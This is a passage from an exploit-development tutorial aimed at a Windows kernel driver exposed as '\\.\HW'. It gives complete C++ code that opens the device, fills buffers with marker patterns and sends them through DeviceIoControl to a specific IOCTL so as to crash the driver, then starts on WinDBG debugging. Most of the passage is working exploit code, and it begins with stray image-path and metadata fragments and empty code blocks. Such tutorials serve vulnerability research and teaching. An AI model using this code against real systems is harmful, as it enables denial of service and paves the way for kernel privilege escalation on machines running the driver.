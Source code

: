 ```batch
```

now lets write add more code to our exploit, this code is for sending buffer to our driver to crash it, after the `printf` add these lines of code and build it

```c++
	// Sending Buffer To Driver
	LPVOID uInBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	LPVOID uOutBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Preparing Input Data To Send
	QWORD*in = (QWORD*)((QWORD)uInBuf);
	*(in + index++) = 0x4141414142424242;
	*(in + index++) = 0x4343434344444444;
	*(in + index++) = 0x4545454546464646;

    DeviceIoControl(hDriver, IOCTL, (LPVOID)uInBuf, 0x1000, uOutBuf, 0x1000, &bytesWritten, NULL);

	return 0;
```
after adding these lines of code, our first block of code which is for driver opening and our later part of code which for sending buffer to driver gonna look like this after combining them

```c++
#include "windows.h"
#include <stdio.h>
#include <Psapi.h>
#include <String.h>
#include <stdlib.h>

#define DRIVERNAME "\\\\.\\HW"
#define QWORD ULONGLONG
#define IOCTL 0x9C406500

int main()
{
	DWORD index = 0;
	DWORD bytesWritten = 0;
	// Interact With Driver Handle Using
	HANDLE hDriver = CreateFileA(DRIVERNAME, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
	if (hDriver == INVALID_HANDLE_VALUE) {
		printf("[!] Error - While Creating Device Driver \n", GetLastError());
		exit(-1);
	}
	
	// Sending Buffer To Driver
	LPVOID uInBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	LPVOID uOutBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Preparing Input Data To Send
	QWORD*in = (QWORD*)((QWORD)uInBuf);
	*(in + index++) = 0x4141414142424242;
	*(in + index++) = 0x4343434344444444;
	*(in + index++) = 0x4545454546464646;

    // Interacting With IOCTL Using DeviceIoControl
	DeviceIoControl(hDriver, IOCTL, (LPVOID)uInBuf, 0x1000, uOutBuf, 0x1000, &bytesWritten, NULL);

	return 0;
}
```
now build it and before running our compiled exploit we need to set breakpoint in WinDBG inWinDBG set breakpint on `hw64`
```batch
```